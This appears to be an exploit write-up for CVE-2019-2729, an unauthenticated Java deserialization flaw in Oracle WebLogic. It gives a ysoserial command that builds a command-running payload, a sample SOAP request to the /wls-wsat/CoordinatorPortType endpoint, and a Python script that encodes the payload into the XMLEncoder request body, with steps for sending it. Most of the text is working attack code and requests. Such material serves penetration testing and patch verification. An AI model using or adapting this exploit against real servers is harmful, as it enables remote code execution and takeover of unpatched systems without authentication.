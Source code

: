 
# Exploiting CVE-2019-2729 WebLogic Deserialization Vulnerability

## Introduction

CVE-2019-2729 is a Java deserialization vulnerability in Oracle WebLogic
versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0.  Serialized Java objects are
accepted anonymously via an HTTP service and deserialized.  Remote code
execution is possible without authentication.

This exploit was tested against WebLogic 10.3.6.0.

A typical vulnerable server will have HTTP services listening on one or more
TCP ports which have a web application at /wls-wsat/.

## Generate a payload with ysoserial

First, get ysoserial (https://github.com/frohoff/ysoserial) and use it to
generate a simple RCE payload.

```
java -jar ysoserial-0.0.5-all.jar Jdk7u21 "nslookup test222.ourns.example.com" > payload
```

Here, we generate a payload using ysoserial which will do a DNS lookup that
we'll be able to monitor.  The "payload" file contains a serialized Java
LinkedHashSet object which will run this command.

Note that the ysoserial payload generator used here, named Jdk7u21, only
works under JRE version 7u21 and earlier (see
https://gist.github.com/frohoff/24af7913611f8406eaf3), however that seems to
be standard with WebLogic 10.3.6.0.  You might have to use a different
payload for newer versions of WebLogic. The advantage to Jdk7u21 is the lack
of any dependancies in the server's classpath.

## Transform the payload into SOAP

Next, we need to massage this blob into a SOAP HTTP request body.  The
affected web services accept SOAP requests containing Java objects encoded
in Java's XMLEncoder format.  An example request showing the format:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.0.3.8:8200
SOAPAction:
Content-Type: text/xml
Content-Length: 204219

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java>
    <array method="forName">
     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
     <void>
      <array class="byte" length="3">
       <void index="0">
        <byte>1</byte>
       </void>
       <void index="1">
        <byte>2</byte>
       </void>
       <void index="2">
        <byte>3</byte>
       </void>
      </array>
     </void>
    </array>  
   </java>
  </work:WorkContext>   
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

The payload generated above needs to be stuffed into a byte[] array by the
server. The following python script will generate the required request body
and write it to a file named "payload_encoded".

```
of = open('payload_encoded','w')
payload = open('payload').read()

of.write('<?xml version="1.0" encoding="utf-8"?>\n')
of.write('<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">\n')
of.write(' <soapenv:Header>\n')
of.write('  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">\n')
of.write('   <java>\n')
of.write('    <array method="forName">\n')
of.write('     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>\n')
of.write('     <void>\n')
of.write('      <array class="byte" length="%d">\n' % len(payload) )

for i in range(len(payload)):
    byte = payload[i]
    v = ord(byte)
    if v >= 128:
        v = -256+v
    of.write('       <void index="%d">\n' % i)
    of.write('        <byte>%d</byte>\n' % v)
    of.write('       </void>\n')

of.write('      </array>\n')
of.write('     </void>\n')
of.write('    </array>\n')
of.write('   </java>\n')
of.write('  </work:WorkContext>\n')
of.write(' </soapenv:Header>\n')
of.write(' <soapenv:Body/>\n')
of.write('</soapenv:Envelope>\n')
```

Next, send the generated request body to the affected service via a POST
request to POST /wls-wsat/CoordinatorPortType. The entire resulting HTTP
request should look just like the example above but much longer.

The server will return a 500 response, however the command should execute
anyway.


